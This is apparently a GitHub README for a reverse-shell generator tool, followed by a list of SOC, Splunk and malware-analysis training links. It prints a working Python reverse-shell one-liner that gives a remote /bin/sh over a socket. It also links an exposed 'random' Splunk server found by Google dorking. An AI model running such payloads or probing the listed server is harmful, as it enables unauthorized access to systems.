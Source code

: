 # Reverse-Shell-Generator

<div align="center">
</div>

![3](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExb2RmbnpoZ2Y5c3MxdnU1ajk5ZGU5MDN3YzNhaHR4Z3o2ZGN6aGVucCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fdOA43sHFE6Pu/giphy.gif)

</div>

## Link
```
https://devvj-1.github.io/Reverse-Shell-Generator/
```

## 🔧 Linux  Troubleshooting commands 
```
https://chatgpt.com/share/74ea2fe2-6b6d-400e-bfee-1a434763a162
```

## Python payload 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Screenshot 2024-06-08 015037](https://github.com/DevVj-1/Reverse-Shell-Generator/assets/106962581/13b0947b-d1bd-43af-bb1b-b9a2fc6063e2)

## Setup rootless kali Nethunter on Android

https://youtu.be/fqaSEbaYkJQ?si=b8u3mB2aq8Y4C9Hk

Some how i discovered a cyber security course hands-on cloud labs. so i share it here too! with you guys :)
(Just randomly discovered links while Google dorking)

## Splunk labs

""

👏🏻 I really grateful and appreciative to the creator of this course (Sam Boney, Sir) for creating this cloud hands-on labs and other informative content. 💡

In exchange for what we learn from this resource. We should subscribe ❤️ to his YouTube channel (https://www.youtube.com/channel/UCC2OBhIt1sHE4odV05RYP1w)

""
* all Splunk labs: https://samsclass.info/50/50_S19.shtml#quiz

* Boss of the SOC v1: Threat Hunting with Splunk:
  https://samsclass.info/50/proj/botsv1.htm
* Proj 1x: BOSS OF THE SOC: Finding Attack Servers:
  https://samsclass.info/50/proj/p1xbots.htm
* Random splunk server: http://172.218.49.49:8000/en-US/manager/search/adddatamethods/selectsource?input_mode=0

### Splunk SIEM Crash Course | Free Spunk Training for Security Analyst:
* https://youtu.be/LbR5cqqaFVk?si=DzuR70M_1Ld6Jx6g
  
## other labs

* https://attack.samsclass.info/

## CBL
* https://samsclass.info/129S/proj/CBL.htm

## CNIT
* https://samsclass.info/129S/proj/p10token.htm

## Top 10 Soc analyst hands on labs.

link:https://youtu.be/G5sCK6IU3nU?si=r9Br6pag8HZeiUGK

## Sandbox for Malware forensics !

![any_run4_Forensics](https://github.com/user-attachments/assets/9d7d3729-a16f-4214-8803-6b87a1ff3f1d)

ANY. RUN is a service that allows cybersecurity specialists to detect, analyze, and monitor cybersecurity threats. It is the interactive online malware analysis sandbox, where the user controls the flow of the analysis.

```
[*] https://app.any.run/
```

## SOC Master Class: A Beginner’s Guide to Building a Career in Cybersecurity

https://youtu.be/9dlDcyg0d6U?si=fiGHRGHhmtu-29TJ
